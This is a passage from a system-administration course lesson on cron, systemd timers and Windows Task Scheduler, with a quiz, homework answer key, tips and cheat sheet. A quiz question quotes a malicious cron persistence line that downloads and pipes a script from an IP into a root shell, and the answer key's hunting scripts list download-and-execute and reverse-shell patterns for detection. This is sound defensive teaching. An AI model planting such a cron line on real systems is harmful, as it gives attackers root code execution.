    **C.** Debian/Ubuntu cron supports only the system time zone (crontab(5), LIMITATIONS); `CRON_TZ` is a cronie (RHEL) feature. For per-job time zones use a systemd timer (`OnCalendar=… Europe/Berlin`) or run servers in UTC.

**Q8.** During an investigation you find `/etc/cron.d/apt-check` running `*/10 * * * * root curl -s http://203.0.113.50/u | sh`. What do you do **first**?

- A. Delete the file immediately
- B. Record evidence (contents, hash, timestamps, related log lines), then contain and remove it, and look for how it got there
- C. Restart cron
- D. Change the schedule to hourly

??? question "Answer and explanation"
    **B.** This is T1053.003 persistence downloading and running code as root. Preserve evidence first (`sha256sum`, `stat`, copies, `grep CRON` logs, network logs for 203.0.113.50), then disable/remove it as part of incident response and find the initial access. Deleting first destroys evidence; the other options leave the attacker in place.

**Q9.** Which Task Scheduler setting prevents two instances of the same task from running at the same time?

- A. `-StartWhenAvailable`
- B. `-MultipleInstances IgnoreNew`
- C. `-RestartCount 3`
- D. `-RunLevel Highest`

??? question "Answer and explanation"
    **B.** `IgnoreNew` (the default) ignores a new start while an instance runs — the scheduler's equivalent of `flock -n` (event 322 records the ignored launch).

**Q10.** Why should a scheduled health check be "quiet unless there is a problem"?

- A. Output slows cron down
- B. So that any output (mail, log) means "look at this" and alerts are not drowned in routine noise
- C. cron cannot handle output
- D. Task Scheduler deletes tasks that print output

??? question "Answer and explanation"
    **B.** If every run produces output, people stop reading it and a real alert is missed. Log one short line per run for history, and produce noisy output or alerts only when the exit code says there is a problem.

## Homework

1. **Inventory your schedules.** On an Ubuntu VM, list every scheduled job (user crontabs, `/etc/crontab`, `/etc/cron.d`, `cron.*` directories, `atq`, `systemctl list-timers --all`). For five of them, write one sentence on what they do and which package installed them (`dpkg -S FILE`). On Windows, export your non-Microsoft tasks with `Get-ScheduledTask` to CSV with their actions and principals.
2. **Cron to timer.** Convert one of your own cron jobs (or the Day 24 report) to a systemd timer with `Persistent=true` and `RandomizedDelaySec=`. Verify it with `systemd-analyze verify` and show `systemctl list-timers` output.
3. **DST check.** Use `systemd-analyze calendar --base-time=` to find out what happens to a job at `*-*-* 01:30:00 America/New_York` around the end of daylight saving time (first Sunday of November). Explain the result and how running in UTC avoids it.
4. **First Monday.** Write a crontab line that runs a script at 06:00 on the first Monday of every month, and the equivalent `OnCalendar=` expression. Test the systemd one with `systemd-analyze calendar --iterations=3`.
5. **Hunting script.** Write `Find-ScheduledPersistence.ps1` (or a Bash function `hunt_cron`) that lists every scheduled job and flags actions in temporary or user-writable directories, encoded PowerShell (`-enc`) or download-and-execute patterns.

??? success "Homework answer key (items 3–5)"
    Item 3:

    ```bash
    systemd-analyze calendar --base-time='2026-10-31 12:00 UTC' --iterations=3 '*-*-* 01:30:00 America/New_York'
    ```

    On Sunday 1 November 2026 the local time 01:30 occurs **twice** (clocks go back from 02:00 to 01:00). systemd runs the job once that day; the UTC times printed for 31 October, 1 and 2 November show the offset changing from UTC−4 to UTC−5 (05:30 UTC, then 06:30 UTC). A server in UTC has no repeated or missing hours, so "01:30" is always one well-defined moment.

    Item 4:

    ```text
    0 6 * * 1 [ "$(date +\%d)" -le 07 ] && /usr/local/bin/monthly-report
    OnCalendar=Mon *-*-01..07 06:00:00
    ```

    The crontab restricts only the weekday and tests the day of month in the command (both restricted would mean OR). systemd's expression is an AND of weekday and day range.

    Item 5 (PowerShell core):

    ```powershell
    $suspicious = '\\(Temp|AppData|ProgramData|Users\\Public)\\|-enc|-EncodedCommand|DownloadString|Invoke-WebRequest|http'
    Get-ScheduledTask | ForEach-Object {
        foreach ($a in $_.Actions) {
            $cmd = "$($a.Execute) $($a.Arguments)"
            [pscustomobject]@{ Task = $_.TaskPath + $_.TaskName; RunAs = $_.Principal.UserId; Action = $cmd
                               Flag = if ($cmd -match $suspicious) { 'REVIEW' } else { '' } }
        }
    } | Sort-Object Flag -Descending | Format-Table -AutoSize
    ```

    Bash core:

    ```bash
    hunt_cron() {
        local pat='/tmp/|/dev/shm/|/var/tmp/|curl .*\| *sh|wget .*\| *sh|base64 -d|nc |bash -i'
        { for u in $(cut -d: -f1 /etc/passwd); do crontab -l -u "$u" 2>/dev/null | sed "s|^|user:$u: |"; done
          grep -H -v '^#' /etc/crontab /etc/cron.d/* 2>/dev/null; } | grep -Ev ':[[:space:]]*(#|$)' |
        while IFS= read -r line; do
            if grep -Eq "$pat" <<< "$line"; then echo "REVIEW $line"; else echo "       $line"; fi
        done
    }
    sudo bash -c "$(declare -f hunt_cron); hunt_cron"
    ```

## Professional Tips

- **One wrapper, many jobs.** Put locking, timeout, logging and exit-code mapping into a small wrapper (like `lab25-run-health.sh`) and keep the crontab lines trivial: one absolute path and an argument.
- **Make the schedule self-documenting:** a comment with owner and ticket above every crontab line; `Description=` and `Documentation=` in units; `-Description` and a company task folder on Windows.
- **Test like the scheduler:** `env -i HOME=$HOME PATH=/usr/bin:/bin /bin/sh -c '…'` for cron, `sudo systemctl start NAME.service` for timers, `powershell.exe -NoProfile -NonInteractive -File …` for tasks — as the job's **user**.
- **Monitor the monitor.** Alert when the log has no new line for twice the interval ("dead man's switch"); a check that stopped running is silent.
- **Spread the load:** odd minutes in cron, `RandomizedDelaySec=` in timers, `-RandomDelay` in tasks.
- **Keep secrets out** of crontabs, unit files and task arguments; use root-only config files, credential stores or gMSAs.
- **Version-control your schedules:** keep crontab files, unit files and exported task XML in Git, and install them from there (`crontab file`, `systemctl link`, `Register-ScheduledTask -Xml`).
- **Change control:** before changing a production crontab, `crontab -l > backup`; for tasks, `Export-ScheduledTask`.

## Command Cheat Sheet

```bash
# ---- cron ----
crontab -l > ~/crontab.$(date -u +%Y%m%dT%H%M%SZ)      # back up first
crontab -e ; crontab -l ; crontab -i -r ; crontab FILE  # edit, list, remove (asks), install
sudo crontab -u alice -l                               # another user's crontab
*/15 * * * * /opt/job/run.sh quick                     # every 15 min (user crontab)
30 2 * * * root /opt/job/run.sh nightly                # /etc/cron.d/NAME (user field, no dots in NAME)
date +\%F                                              # % must be escaped in crontab lines
MAILTO="" ; SHELL=/bin/bash ; PATH=/usr/local/bin:/usr/bin:/bin   # environment lines
run-parts --test /etc/cron.daily                       # what will run
journalctl -u cron --since today ; grep CRON /var/log/syslog
# ---- safe jobs ----
flock -n /run/lock/job.lock CMD ; exec 9>"$LOCK"; flock -n 9 || exit 0
timeout -k 10 120 CMD ; echo $?                        # 124 = timed out
logger -t lab25 -p user.warning "ALERT disk 93%"       # to syslog/journal
# ---- at ----
echo "/path/cmd" | at 22:00 ; atq ; at -c 3 ; atrm 3 ; echo cmd | batch
# ---- systemd timers ----
systemd-analyze calendar --iterations=3 '*:0/15' ; systemd-analyze verify x.service x.timer
sudo systemctl daemon-reload ; sudo systemctl enable --now x.timer
systemctl list-timers --all ; systemctl status x.service ; journalctl -u x.service
systemctl --user enable --now x.timer ; sudo loginctl enable-linger "$USER"
sudo systemd-run --on-calendar='*-*-* 03:00' --unit=once-report /usr/local/bin/report
# ---- logrotate ----
sudo logrotate -d /etc/logrotate.d/NAME ; sudo logrotate -f /etc/logrotate.d/NAME
```

```powershell
# ---- Task Scheduler ----
$a = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-NoProfile -NonInteractive -ExecutionPolicy Bypass -File "C:\Lab25\bin\Run.ps1"'
$t = New-ScheduledTaskTrigger -Daily -At '02:30'            # -AtStartup, -AtLogOn, -Weekly -DaysOfWeek Monday -At 06:00
$t.Repetition = (New-ScheduledTaskTrigger -Once -At '00:00' -RepetitionInterval (New-TimeSpan -Minutes 15) -RepetitionDuration (New-TimeSpan -Days 1)).Repetition
$p = New-ScheduledTaskPrincipal -UserId 'SYSTEM' -LogonType ServiceAccount -RunLevel Highest
$s = New-ScheduledTaskSettingsSet -StartWhenAvailable -MultipleInstances IgnoreNew -ExecutionTimeLimit (New-TimeSpan -Minutes 10)
Register-ScheduledTask -TaskName 'Job' -TaskPath '\Company\' -Action $a -Trigger $t -Principal $p -Settings $s
Get-ScheduledTaskInfo -TaskPath '\Company\' -TaskName 'Job' | Select-Object LastRunTime, LastTaskResult, NextRunTime
Start-ScheduledTask / Stop-ScheduledTask / Disable-ScheduledTask / Enable-ScheduledTask -TaskPath '\Company\' -TaskName 'Job'
Unregister-ScheduledTask -TaskPath '\Company\' -TaskName 'Job' -Confirm:$false
Export-ScheduledTask -TaskPath '\Company\' -TaskName 'Job' > Job.xml
Get-ScheduledTask | Where-Object TaskPath -notlike '\Microsoft\*' | Select-Object TaskPath, TaskName, @{N='Run';E={$_.Actions.Execute}}
schtasks /query /tn "\Company\Job" /v /fo list ; schtasks /run /tn "\Company\Job"
wevtutil sl Microsoft-Windows-TaskScheduler/Operational /e:true      # enable history (admin)
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-TaskScheduler/Operational'; Id=201} -MaxEvents 5
```

## Completion Checklist

- [ ] I can explain when to use cron, anacron, `at`, systemd timers and Task Scheduler.
- [ ] I read and write five-field crontab lines, including steps, lists, `@` shortcuts and the day-of-month OR day-of-week rule.
- [ ] I manage crontabs safely: backup with `crontab -l > file`, `crontab -e`, `crontab -i -r`, `crontab -u` as root.
- [ ] I know the rules for `/etc/crontab`, `/etc/cron.d` (user field, no dots) and `run-parts`, and the cron.allow/deny logic.
- [ ] I write jobs for the cron environment: absolute paths, own `PATH`, escaped `%`, no reliance on mail.
- [ ] I log every run (UTC line + `logger`) and use exit codes 0/3 to separate OK, alert and failure.
- [ ] I prevent overlap with `flock -n` and hangs with `timeout`.
- [ ] I can write, verify and enable a systemd timer + oneshot service and read its status and journal.
- [ ] I rotate job logs with a tested `logrotate` drop-in.
- [ ] I can register, run and troubleshoot a Windows task and interpret `LastTaskResult` and events 100/102/201.
- [ ] I can hunt for scheduled-task persistence on Linux and Windows and spot writable root/SYSTEM job scripts.
- [ ] I completed Lab 25 and checked it against the solution, and did the practice questions, quiz and homework.

## Further Reading

- Ubuntu man pages (noble): [crontab(1)](https://manpages.ubuntu.com/manpages/noble/en/man1/crontab.1.html), [crontab(5)](https://manpages.ubuntu.com/manpages/noble/en/man5/crontab.5.html), [cron(8)](https://manpages.ubuntu.com/manpages/noble/en/man8/cron.8.html) — the site may show the cronie version first; Ubuntu's default daemon is the Debian `cron` package, whose pages are also installed locally (`man 5 crontab`). [run-parts(8)](https://manpages.ubuntu.com/manpages/noble/en/man8/run-parts.8.html), [at(1)](https://manpages.ubuntu.com/manpages/noble/en/man1/at.1.html), [anacron(8)](https://manpages.ubuntu.com/manpages/noble/en/man8/anacron.8.html), [logrotate(8)](https://manpages.ubuntu.com/manpages/noble/en/man8/logrotate.8.html)
- man7.org: [flock(1)](https://man7.org/linux/man-pages/man1/flock.1.html), [timeout(1)](https://man7.org/linux/man-pages/man1/timeout.1.html), [logger(1)](https://man7.org/linux/man-pages/man1/logger.1.html), [systemd.timer(5)](https://man7.org/linux/man-pages/man5/systemd.timer.5.html), [systemd.time(7)](https://man7.org/linux/man-pages/man7/systemd.time.7.html) (calendar syntax), [systemd.service(5)](https://man7.org/linux/man-pages/man5/systemd.service.5.html), [systemd.exec(5)](https://man7.org/linux/man-pages/man5/systemd.exec.5.html) (hardening options), [systemd-analyze(1)](https://man7.org/linux/man-pages/man1/systemd-analyze.1.html), [systemd-run(1)](https://man7.org/linux/man-pages/man1/systemd-run.1.html), [loginctl(1)](https://man7.org/linux/man-pages/man1/loginctl.1.html)
- PowerShell ScheduledTasks module: [Register-ScheduledTask](https://learn.microsoft.com/en-us/powershell/module/scheduledtasks/register-scheduledtask), [New-ScheduledTaskAction](https://learn.microsoft.com/en-us/powershell/module/scheduledtasks/new-scheduledtaskaction), [New-ScheduledTaskTrigger](https://learn.microsoft.com/en-us/powershell/module/scheduledtasks/new-scheduledtasktrigger), [New-ScheduledTaskPrincipal](https://learn.microsoft.com/en-us/powershell/module/scheduledtasks/new-scheduledtaskprincipal), [New-ScheduledTaskSettingsSet](https://learn.microsoft.com/en-us/powershell/module/scheduledtasks/new-scheduledtasksettingsset), [Get-ScheduledTaskInfo](https://learn.microsoft.com/en-us/powershell/module/scheduledtasks/get-scheduledtaskinfo)
- Windows: [schtasks](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks), [wevtutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/wevtutil), [Task Scheduler error and success constants](https://learn.microsoft.com/en-us/windows/win32/taskschd/task-scheduler-error-and-success-constants), [about_Scheduled_Jobs (5.1)](https://learn.microsoft.com/en-us/powershell/module/psscheduledjob/about/about_scheduled_jobs?view=powershell-5.1), [Group Managed Service Accounts overview](https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview), [Audit Other Object Access Events (4698–4702)](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-other-object-access-events)
- MITRE ATT&CK: [T1053 Scheduled Task/Job](https://attack.mitre.org/techniques/T1053/) — [.003 Cron](https://attack.mitre.org/techniques/T1053/003/), [.005 Scheduled Task](https://attack.mitre.org/techniques/T1053/005/), [.006 Systemd Timers](https://attack.mitre.org/techniques/T1053/006/), [.002 At](https://attack.mitre.org/techniques/T1053/002/)

---

**Previous:** [Day 24: Text and Data Processing](day-24.md) · **Next:** [Day 26: Remote Administration](../module-6/day-26.md)
